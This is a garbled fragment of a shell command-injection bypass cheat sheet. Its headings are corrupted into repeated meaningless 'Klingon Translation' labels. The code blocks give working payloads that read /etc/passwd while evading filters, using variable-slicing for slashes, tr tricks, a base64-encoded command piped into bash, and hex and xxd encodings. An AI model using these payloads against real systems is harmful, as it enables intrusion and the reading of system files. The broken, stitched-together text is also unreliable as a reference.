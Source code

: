 
#### Klingon Translation:

### Bypass backslash and slash

#### Klingon Translation:

### Bypass backslash and slash

#### Klingon Translation:

### Bypass backslash and slash

#### Klingon Translation:

### Bypass backslash and slash

#### Klingon Translation:
```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```
### Bypass pipes

#### tlhIngan Hol translation:

### Qa'vam qo'lu'

#### HTML translation:

<h3>Qa'vam qo'lu'</h3>
```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
### Bypass with hex encoding

#### English Translation:

### Hex encoding jImej

#### Klingon Translation:

### Hex encoding jImej
```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat abc
`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
cat `xxd -r -p <<< 2f6574632f706173737764`
xxd -r -ps <(echo 2f6574632f706173737764)
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```
### Bypass IPs
